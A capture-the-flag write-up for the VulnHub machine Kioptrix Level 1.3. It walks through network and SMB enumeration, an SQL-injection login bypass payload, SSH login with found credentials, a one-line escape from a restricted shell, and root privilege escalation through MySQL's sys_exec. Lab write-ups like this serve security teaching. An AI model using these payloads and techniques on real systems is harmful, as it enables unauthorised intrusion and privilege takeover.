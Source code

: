 # Information

- Name: Kioptrix: Level 1.3 (#4)
- Date release: 8 Feb 2012
- Author: Kioptrix
- Series: Kioptrix
- Platform: VulnHub
- Link: https://www.vulnhub.com/entry/kioptrix-level-13-4,25/
- Difficulty: Easy

# Write Up

## Enumeration

### Host Discovery
Host Discovery is performed using the tool [arpScan](https://github.com/aalmeidar/Tools/tree/main/arpScan).Several IPs are listed, of which _10.0.2.5_ is the one indicated.
```Console
# python3 main.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:a3:f2:2f 10.0.2.3
[*] 08:00:27:09:1f:1b 10.0.2.5
```
### Port Scanning 
Port Scanning is performed with [portScan](https://github.com/aalmeidar/Tools/tree/main/portScan) and _nmap_. First, the entire port range is scanned to find those that are open.

The following ports are found:
```Console
# python3 portScanner.py -i 10.0.2.5
[*] Port 22 (ssh) open
[*] Port 80 (http) open
[*] Port 139 (netbios-ssn) open
[*] Port 445 (microsoft-ds) open
```
Three main attack vectors are observed: SSH, Web and SMB. The versions of the respective services are scanned with nmap:

```Console
# nmap -sV -p22,80,139,445 10.0.2.5
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-29 17:29 UTC
Nmap scan report for 10.0.2.5 (10.0.2.5)
Host is up (0.00028s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 08:00:27:09:1F:1B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.57 seconds
```
#### SSH
Port 22 is running OpenSSH 4.7p1 in Debian 8ubuntu1.2. In this version users can be enumerated to see if they exist in the system with [OpenSSH 2.3 - 7.7 - Username Enumeration](https://www.exploit-db.com/exploits/45233).

#### Web
Port 80 is running Apache httpd 2.2.8. With _whatweb_ ypu can take a quick look at the technologies used. In ths case, nothing interesting but there is a login.

```Console
whatweb http://10.0.2.5
http://10.0.2.5 [200 OK] Apache[2.2.8], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch], IP[10.0.2.5], PHP[5.2.4-2ubuntu5.6][Suhosin-Patch], PasswordField[mypassword], X-Powered-By[PHP/5.2.4-2ubuntu5.6]
```
On the web, there is simply a username field and a password field next to a picture of a goat.
![Index](images/index.png)

After some tests it is observed that the password field is vulnerable to SQLi. For example, if it is tested with _admin_ and _test' or 1=1-- -_ it gives us the following output:
![SQLi Admin](images/sqli_admin.png)

You could brute force to find valid users via ssh, but it would take more time.
To finish listing the web, you can perform fuzzing to find directories and files. In this case I will use _gobuster_.

```Console
sudo gobuster dir -u http://10.0.2.5 -x php -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.5
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/08/29 18:00:24 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 1255]
/images               (Status: 301) [Size: 344] [--> http://10.0.2.5/images/]
/index.php            (Status: 200) [Size: 1255]
/member               (Status: 302) [Size: 220] [--> index.php]
/member.php           (Status: 302) [Size: 220] [--> index.php]
/logout               (Status: 302) [Size: 0] [--> index.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/john                 (Status: 301) [Size: 342] [--> http://10.0.2.5/john/]
/robert               (Status: 301) [Size: 344] [--> http://10.0.2.5/robert/]
/server-status        (Status: 403) [Size: 328]

===============================================================
2022/08/29 18:01:00 Finished
===============================================================
```
Users john and robert are found. Accessing john's directory exposes his credentials. It can also be checked by login or SQLi.
![John Directory](images/john_directory.png)
![John Password](images/john_password.png)

#### SMB
On the other hand, ports 139 and 445 are running smb. To enumerate them, some nmap scripts intended for this purpose will be used.

```Console
# nmap -p139,445 --script smb-enum-users,smb-enum-shares 10.0.2.5
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-29 18:14 UTC
Nmap scan report for 10.0.2.5 (10.0.2.5)
Host is up (0.00025s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:09:1F:1B (Oracle VirtualBox virtual NIC)

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.0.2.5\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Kioptrix4 server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.0.2.5\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-enum-users:
|   KIOPTRIX4\john (RID: 3002)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\loneferret (RID: 3000)
|     Full name:   loneferret,,,
|     Flags:       Normal user account
|   KIOPTRIX4\nobody (RID: 501)
|     Full name:   nobody
|     Flags:       Normal user account
|   KIOPTRIX4\robert (RID: 3004)
|     Full name:   ,,,
|     Flags:       Normal user account
|   KIOPTRIX4\root (RID: 1000)
|     Full name:   root
|_    Flags:       Normal user account

Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```
- Found users: john, loneferret, nobody, robert and root. 
- Shared directories found: IPC$ and print$

## Exploitation
First of all, you can check if the obtained credentials access the ssh service. Entering the username _john_ and the password _MyNameIsJohn_ returns a shell. The shell is an _lshell_, that is, it is a restricted shell where only the commands listed with the _?_ or _help_ command can be executed. 
```Console
ssh -oHostKeyAlgorithms=+ssh-dss john@10.0.2.5
```

To escape from lshell (0.9.5) and start a bash you can run:
```Console
echo os.system('/bin/bash')
```
With this we would already be inside the machine and we could access the root directory.

## Privilege Escalation

It can be seen that the mysql service exists in the system. It tries to login as root without a password and is successful. Via mysql_udf we can change john's groups. 
If you list /etc/passwd you can see a group _admin_.

```Console
john@Kioptrix4:~$ mysql -u root
```

```Console
mysql> select  sys_exec('usermod -a -G admin john');
+-------------------------------------+
| sys_exec('usermod -a -G root john') |
+-------------------------------------+
| NULL                                |
+-------------------------------------+
1 row in set (0.05 sec)

mysql> exit
Bye
john@Kioptrix4:~$ sudo su
[sudo] password for john:
root@Kioptrix4:/home/john# whoami
root
```
